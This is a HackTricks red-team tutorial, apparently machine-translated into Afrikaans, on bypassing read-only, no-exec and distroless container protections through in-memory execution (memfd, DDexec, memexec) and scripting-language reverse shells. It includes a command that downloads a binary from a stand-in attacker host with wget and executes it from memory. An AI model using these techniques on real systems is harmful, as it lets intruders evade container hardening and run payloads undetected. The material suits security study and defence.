 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en die onhackbare hack - **ons is op soek na mense!** (_vloeiend in geskryf en gesproke Pools vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In die volgende video's kan jy die tegnieke wat op hierdie bladsy genoem word, meer in diepte verduidelik vind:

* [**DEF CON 31 - Verkenning van Linux Geheue Manipulasie vir Stealth en Ontvlugting**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth indringings met DDexec-ng & in-geheue dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

Dit is al hoe meer algemeen om linux masjiene te vind wat gemonteer is met **read-only (ro) lêerstelsel beskerming**, veral in houers. Dit is omdat dit so maklik is om 'n houer met 'n ro lêerstelsel te laat loop deur **`readOnlyRootFilesystem: true`** in die `securitycontext` in te stel:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Tog, selfs al is die lêerstelsel as ro gemonteer, sal **`/dev/shm`** steeds skryfbaar wees, so dit is vals dat ons nie enigiets op die skyf kan skryf nie. Hierdie gids sal egter **gemonteer wees met no-exec beskerming**, so as jy 'n binêre hier aflaai, sal jy **nie in staat wees om dit uit te voer nie**.

{% hint style="warning" %}
Van 'n rooi span perspektief maak dit **moeilik om binêre te aflaai en uit te voer** wat nie reeds in die stelsel is nie (soos agterdeure of enumerators soos `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Let daarop dat ek binêre genoem het, jy kan **enige script uitvoer** solank die interpreter binne die masjien is, soos 'n **shell script** as `sh` teenwoordig is of 'n **python** **script** as `python` geïnstalleer is.

Tog is dit nie net genoeg om jou binêre agterdeur of ander binêre gereedskap wat jy mag nodig hê om te loop, uit te voer nie.

## Memory Bypasses

As jy 'n binêre wil uitvoer maar die lêerstelsel dit nie toelaat nie, is die beste manier om dit te doen deur **dit uit geheue uit te voer**, aangesien die **beskermings daar nie van toepassing is nie**.

### FD + exec syscall bypass

As jy 'n paar kragtige script enjin in die masjien het, soos **Python**, **Perl**, of **Ruby**, kan jy die binêre aflaai om uit geheue uit te voer, dit in 'n geheue lêer beskrywer (`create_memfd` syscall) stoor, wat nie deur daardie beskermings beskerm gaan word nie en dan 'n **`exec` syscall** aanroep wat die **fd as die lêer om uit te voer** aandui.

Vir hierdie kan jy maklik die projek [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) gebruik. Jy kan dit 'n binêre gee en dit sal 'n script in die aangeduide taal genereer met die **binêre gecomprimeer en b64 geënkodeer** met die instruksies om dit te **dekodeer en te dekomprimeer** in 'n **fd** wat geskep is deur `create_memfd` syscall aan te roep en 'n oproep na die **exec** syscall om dit te laat loop.

{% hint style="warning" %}
Dit werk nie in ander skripting tale soos PHP of Node nie omdat hulle nie enige d**efault manier het om rou syscalls** van 'n script aan te roep nie, so dit is nie moontlik om `create_memfd` aan te roep om die **geheue fd** te skep om die binêre te stoor nie.

Boonop sal die skep van 'n **regte fd** met 'n lêer in `/dev/shm` nie werk nie, aangesien jy nie toegelaat sal word om dit te laat loop nie omdat die **no-exec beskerming** van toepassing sal wees.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is 'n tegniek wat jou toelaat om die **geheue van jou eie proses** te verander deur sy **`/proc/self/mem`** te oorskryf.

Daarom, **beheer die assembly kode** wat deur die proses uitgevoer word, kan jy 'n **shellcode** skryf en die proses "mutate" om **enige arbitrêre kode** uit te voer.

{% hint style="success" %}
**DDexec / EverythingExec** sal jou toelaat om jou eie **shellcode** of **enige binêre** van **geheue** te laai en **uit te voer**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) is die natuurlike volgende stap van DDexec. Dit is 'n **DDexec shellcode demonised**, so elke keer wanneer jy 'n **ander binêre** wil **hardloop**, hoef jy nie DDexec weer te herlaai nie, jy kan net memexec shellcode via die DDexec-tegniek hardloop en dan **kommunikeer met hierdie demon om nuwe binêre te stuur om te laai en te hardloop**.

Jy kan 'n voorbeeld vind van hoe om **memexec te gebruik om binêre van 'n PHP reverse shell** uit te voer in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Met 'n soortgelyke doel as DDexec, laat die [**memdlopen**](https://github.com/arget13/memdlopen) tegniek 'n **gemakliker manier om binêre** in geheue te laai om later uit te voer. Dit kan selfs toelaat om binêre met afhanklikhede te laai.

## Distroless Bypass

### Wat is distroless

Distroless houers bevat slegs die **bare minimum komponente wat nodig is om 'n spesifieke toepassing of diens te laat loop**, soos biblioteke en runtime afhanklikhede, maar sluit groter komponente soos 'n pakketbestuurder, skulp of stelseldienste uit.

Die doel van distroless houers is om die **aanvaloppervlak van houers te verminder deur onnodige komponente te verwyder** en die aantal kwesbaarhede wat uitgebuit kan word, te minimaliseer.

### Reverse Shell

In 'n distroless houer mag jy **nie eers `sh` of `bash`** vind om 'n gewone skulp te kry nie. Jy sal ook nie binêre soos `ls`, `whoami`, `id`... vind nie, alles wat jy gewoonlik in 'n stelsel hardloop.

{% hint style="warning" %}
Daarom, jy **sal nie** in staat wees om 'n **reverse shell** of **te enumerate** die stelsel soos jy gewoonlik doen nie.
{% endhint %}

As die gecompromitteerde houer egter byvoorbeeld 'n flask web loop, dan is python geïnstalleer, en daarom kan jy 'n **Python reverse shell** kry. As dit node loop, kan jy 'n Node rev shell kry, en dieselfde met byna enige **scripting taal**.

{% hint style="success" %}
Met die scripting taal kan jy **die stelsel enumerate** met behulp van die taal se vermoëns.
{% endhint %}

As daar **geen `read-only/no-exec`** beskermings is nie, kan jy jou reverse shell misbruik om **in die lêerstelsel jou binêre te skryf** en **uit te voer**.

{% hint style="success" %}
Echter, in hierdie soort houers sal hierdie beskermings gewoonlik bestaan, maar jy kan die **vorige geheue-uitvoertegnieke gebruik om dit te omseil**.
{% endhint %}

Jy kan **voorbeelde** vind van hoe om **sommige RCE kwesbaarhede te exploiteer** om scripting tale **reverse shells** te kry en binêre uit geheue uit te voer in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en die onhackable te hack - **ons huur!** (_vloeiend Pools geskryf en gesproke vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
